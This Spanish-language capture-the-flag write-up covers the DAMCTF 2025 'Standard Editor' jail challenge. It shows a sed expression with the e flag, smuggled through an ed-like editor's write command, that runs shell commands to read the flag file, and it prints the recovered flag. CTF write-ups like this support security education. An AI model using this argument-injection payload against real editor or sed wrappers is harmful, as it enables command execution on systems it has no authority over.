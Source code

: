 ```yaml
---
title: Standard Editor - DAMCTF2025
author: Kesero
description: Reto basado escapar de un programa de apuntes por terminal mediante command injections.
date: 2025-05-11 10:00:00 +0000
categories: [Writeups Competiciones Internacionales, Miscelánea]
tags: [Misc, Otros - Writeups, Dificultad - Media, Misc - Jail, DAMCTF]
pin: false
math: true
mermaid: true
image:
  path: https://raw.githubusercontent.com/k3sero/Blog_Content/refs/heads/main/Competiciones_Internacionales_Writeups/2025/Damctf2025/Misc/Standard-Editor/img/2.png
  lqip: 
  alt: 
comments: true
---
```

Autor del reto: `evan`

Dificultad: <font color=orange>Media</font>

## Enunciado

"Joel Fagliano has nothing on me. (flag is all caps)"

## Archivos

En este reto, tenemos el siguiente archivo.

- `conexión por netcat`: Contiene la conexión directa con el servidor del reto.

Archivos utilizados [aquí](https://github.com/k3sero/Blog_Content/tree/main/Competiciones_Internacionales_Writeups/2025/Damctf2025/Misc/Standard-Editor).

## Analizando el reto

Al conectarnos por netcat podemos ver el siguiente mensaje.

```
    ┌──(kesero㉿kali)-[~]
    └─$ nc standard-editor.chals.damctf.xyz 6733

    [Sun May 11 20:22:15 UTC 2025] Welcome, editor!
    Feel free to write in this temporary scratch space.
    All data will be deleted when you're done, but files will
    first be printed to stdout in case you want to keep them.
    
    a
    ?
    b
    ?
    c
    ?

```

## Solver

En este reto tendremos que realizar un command injection a través del editor simulado que nos dan en el reto. Para ello como siempre en estos casos, tendremos que probar, probar y probar todo lo posible para observar cómo se comporta el servidor.

La primera suposición que podemos realizar es que el editor mencionado se trata de un editor de línea de comandos personalizado, emulando algo parecido al programa `ed`.

Por ejemplo, si queremos añadir líneas en este tipo de editores, con el comando `a` significa `append` y podemos añadir líneas al editor. Además si queremos finalizar la entrada de líneas, lo realizaremos mediante `.`. De forma parecida, el comando `w` el cual nos permite ejecutar comandos.

Además, al probar, observamos que las expresiones regulares están permitidas ya que observaremos que estamos habilitados para evaluar expresiones de sustitución.

Después de muchos intentos damos con el código para leer la flag. 

```
a
.
w --expression=s@.*@cd\ ..\;\ cd\ ..\;\ cat\ flag@e
a
bruh
.
w f
q
```
Vamos a explicarlo línea por línea.

1. `a` empezamos a añadir líneas.
2. `.` finalizamos la entrada de líneas
3. `w --expression=s@.*@cd\ ..\;\ cd\ ..\;\ cat\ flag@e`. Para comenzar, `w` permite escribir, `--expression=` nos permite evaluar y ejecuar a continuación. Por otro lado dentro de la expresión tenemos `s@.*@cd\ ..\;\ cd\ ..\;\ cat\ flag@e`. En la cual `s@.*@...@e` es una expresión de sustitución de `sed` con la flag `e`, que ejecuta el resultado como un comando de sistema.
Posteriormente, `.*` fuerza a capturar cualquier línea dentro del archivo. Acto seguido se sustituye por `cd ..; cd ..; cat flag` que cambia dos niveles arriba en el sistema de archivos y luego ejecuta `cat flag`

4. `a, bruh, .` Con esta combinación forzamos a que se ejecute el procesamiento de la expresión anterior.

5. `w f` Finalmente grabamos el contenido con `f` y guardamos el contenido. De esta manera, forzamos al sistema que interprete la expresión con ejecución.

6. `q` Por último, salimos del programa.

Realizando los pasos anteriores, obtenemos la flag.

```
  ┌──(kesero㉿kali)-[~]
  └─$ nc standard-editor.chals.damctf.xyz 6733

  [Mon May 12 16:19:16 UTC 2025] Welcome, editor!
  Feel free to write in this temporary scratch space.
  All data will be deleted when you're done, but files will
  first be printed to stdout in case you want to keep them.
  a
  .
  w --expression=s@.*@cd\ ..\;\ 
  cd\ ..\;\ cat\ flag@e
  0
  a
  bruh
  .
  w f
  5
  q
  sed: can't read s@vi\|vim\|emacs\|nano\|vscode\|notepad[+][+]\|code\|zed\|atom\|word\|office\|docs\|o365\|copilot\|cursor@ed(1)@ig: No such file or directory
  dam{is_it_w31rd_that_i_u53_ed(1)_4_fun?}
```

## Flag
`dam{is_it_w31rd_that_i_u53_ed(1)_4_fun?}`
